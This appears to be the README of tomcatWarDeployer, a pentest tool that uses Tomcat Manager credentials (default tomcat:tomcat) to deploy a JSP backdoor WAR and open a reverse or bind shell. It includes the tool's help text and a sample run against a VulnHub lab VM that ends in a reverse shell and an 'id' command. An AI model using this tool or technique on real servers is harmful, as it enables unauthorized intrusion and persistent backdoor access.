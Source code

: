 ## tomcatWarDeployer
Apache Tomcat auto WAR deployment &amp; pwning penetration testing tool.

### What is it?
This is a penetration testing tool intended to leverage Apache Tomcat credentials in order to automatically generate and deploy JSP Backdoor, as well as invoke it afterwards and provide nice shell (either via web gui, listening port binded on remote machine or as a reverse tcp payload connecting back to the adversary). 

In practice, it generates JSP backdoor WAR package on-the-fly and deploys it at the Apache Tomcat Manager Application, using valid HTTP Authentication credentials that pentester provided (or custom ones, in the end, we all love *tomcat:tomcat* ). 

### Usage
As simple as providing server's address with port, as a IP:PORT pair. 
Here goes the help:

```
user$ python tomcatWarDeployer.py --help

    tomcatWarDeployer (v. 0.3.3)
    Apache Tomcat auto WAR deployment & launching tool
    Mariusz B. / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
Usage: tomcatWarDeployer.py [options] server

  server    Specifies server address. Please also include port after colon.

Options:
  -h, --help            show this help message and exit

  General options:
    -v, --verbose       Verbose mode.
    -s, --simulate      Simulate breach only, do not perform any offensive
                        actions.
    -G OUTFILE, --generate=OUTFILE
                        Generate JSP backdoor only and put it into specified
                        outfile path then exit. Do not perform any
                        connections, scannings, deployment and so on.
    -U USER, --user=USER
                        Tomcat Manager Web Application HTTP Auth username.
                        Default="tomcat"
    -P PASS, --pass=PASS
                        Tomcat Manager Web Application HTTP Auth password.
                        Default="tomcat"

  Connection options:
    -H RHOST, --host=RHOST
                        Remote host for reverse tcp payload connection. When
                        specified, RPORT must be specified too. Otherwise,
                        bind tcp payload will be deployed listening on 0.0.0.0
    -p PORT, --port=PORT
                        Remote port for the reverse tcp payload when used with
                        RHOST or Local port if no RHOST specified thus acting
                        as a Bind shell endpoint.
    -u URL, --url=URL   Apache Tomcat management console URL. Default:
                        /manager/
    -t TIMEOUT, --timeout=TIMEOUT
                        Speciifed timeout parameter for socket object and
                        other timing holdups. Default: 10

  Payload options:
    -R APPNAME, --remove=APPNAME
                        Remove deployed app with specified name. Can be used
                        for post-assessment cleaning
    -X PASSWORD, --shellpass=PASSWORD
                        Specifies authentication password for uploaded shell,
                        to prevent unauthenticated usage. Default: randomly
                        generated. Specify "None" to leave the shell
                        unauthenticated.
    -T TITLE, --title=TITLE
                        Specifies head>title for uploaded JSP WAR payload.
                        Default: "JSP Application"
    -n APPNAME, --name=APPNAME
                        Specifies JSP application name. Default: "jsp_app"
    -x, --unload        Unload existing JSP Application with the same name.
                        Default: no.
    -C, --noconnect     Do not connect to the spawned shell immediately. By
                        default this program will connect to the spawned
                        shell, specifying this option let's you use other
                        handlers like Metasploit, NetCat and so on.
    -f WARFILE, --file=WARFILE
                        Custom WAR file to deploy. By default the script will
                        generate own WAR file on-the-fly.
```


And sample usage on [Kevgir 1 VM by canyoupwn.me](https://www.vulnhub.com/entry/kevgir-1,137/) running at 192.168.56.100:8080 :


```
user$ python tomcatWarDeployer.py -v -x -p 4449 -H 192.168.56.102 192.168.56.100:8080

    tomcatWarDeployer (v. 0.3)
    Apache Tomcat 6/7 auto WAR deployment & launching tool
    Mariusz B. / MGeeky '16

Penetration Testing utility aiming at presenting danger of leaving Tomcat misconfigured.
    
INFO: Reverse shell will connect to: 192.168.56.102:4449.
DEBUG: Browsing to "http://192.168.56.100:8080/manager/"... Creds: tomcat:tomcat
DEBUG: Apache Tomcat Manager Application reached & validated.
DEBUG: Generating JSP WAR backdoor code...
DEBUG: Preparing additional code for Reverse TCP shell
DEBUG: Generating temporary structure for jsp_app WAR at: "/tmp/tmpDhzo9I"
DEBUG: Working with Java at version: 1.8.0_60
DEBUG: Generating web.xml with servlet-name: "JSP Application"
DEBUG: Generating WAR file at: "/tmp/jsp_app.war"
DEBUG: added manifest
adding: files/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/(in = 0) (out= 0)(stored 0%)
adding: files/WEB-INF/web.xml(in = 547) (out= 253)(deflated 53%)
adding: files/META-INF/(in = 0) (out= 0)(stored 0%)
adding: files/META-INF/MANIFEST.MF(in = 68) (out= 67)(deflated 1%)
adding: index.jsp(in = 4684) (out= 1595)(deflated 65%)
DEBUG: WAR file structure:
DEBUG: /tmp/tmpDhzo9I
├── files
│   ├── META-INF
│   │   └── MANIFEST.MF
│   └── WEB-INF
│       └── web.xml
└── index.jsp

3 directories, 3 files
WARNING: Application with name: "jsp_app" is already deployed.
DEBUG: Unloading existing one...
DEBUG: Unloading application: "http://192.168.56.100:8080/jsp_app/"
DEBUG: Succeeded.
DEBUG: Deploying application: jsp_app from file: "/tmp/jsp_app.war"
DEBUG: Removing temporary WAR directory: "/tmp/tmpDhzo9I"
DEBUG: Succeeded, invoking it...
DEBUG: Spawned shell handling thread. Awaiting for the event...
DEBUG: Awaiting for reverse-shell handler to set-up
DEBUG: Establishing listener for incoming reverse TCP shell at 192.168.56.102:4449
DEBUG: Socket is binded to local port now, awaiting for clients...
DEBUG: Invoking application at url: "http://192.168.56.100:8080/jsp_app/"
DEBUG: Adding 'X-Pass: oHI9mPB0mOnZ' header for shell functionality authentication.
DEBUG: Incoming client: 192.168.56.100:54251
INFO: JSP Backdoor up & running on http://192.168.56.100:8080/jsp_app/
INFO: Happy pwning. Here take that password for web shell: 'oHI9mPB0mOnZ'
DEBUG: Connected with the shell: tomcat7@canyoupwnme
jh
tomcat7@canyoupwnme $ id
uid=106(tomcat7) gid=114(tomcat7) groups=114(tomcat7)

tomcat7@canyoupwnme $ exit

```

The program will set-up a local listener for reverse-shell connection on the 192.168.56.102:4449 host (local host) as in the example above. Then, after invoking JSP Backdoor it will automatically connect with the local listener, resulting in shell being popped up. One can also skip `-H` parameter in order to go with _bind shell_ functionality, whereas rather then setting local listener - the program will go and connect with remotely listening bind-shell.
i
Finally, the above invocation will result in the following JSP application accessible remotely via WEB:

i
![JSP backdoor gui](screen1.png)


As one can see, there is password needlijked for leveraging deployed backdoor, preventing thus unauthenticated access during conducted assessment.


Summing up, user has spawned WEB application providing WEB backdoor, authenticated via POST 'password' parameter that can be specified by user or randomly generated by the program. Then, the application upon receiving *X-Pass* header in the invocation phase, spawned reverse connection to our *netcat* handler. The HTTP header is being requested here in order to prevent user refreshing WEB gui and keep trying to bind or reverse connect. Also this makes use of authentication to reach that code.

That would be all I guess. 

### TESTED
* Apache Tomcat/5.5.35
* Apache Tomcat/7.0.52
* Apache Tomcat/6.?


### CHANGELOG
* 19.07.16: Version 0.3: Added bind-shell & Reverse-shell functionality to provide user with direct access to the shell.


### TODO

* ~~Implement bind & reverse tcp payload functionality as well as some pty to interact with it~~
* ~~Finish implementing noconnect and connect functionality~~
* Implement sort of communication authentication and encryption/encoding, to prevent flow of plain-text data through the wire/ether
* Test it on ~~tomcat5~~, tomcat8

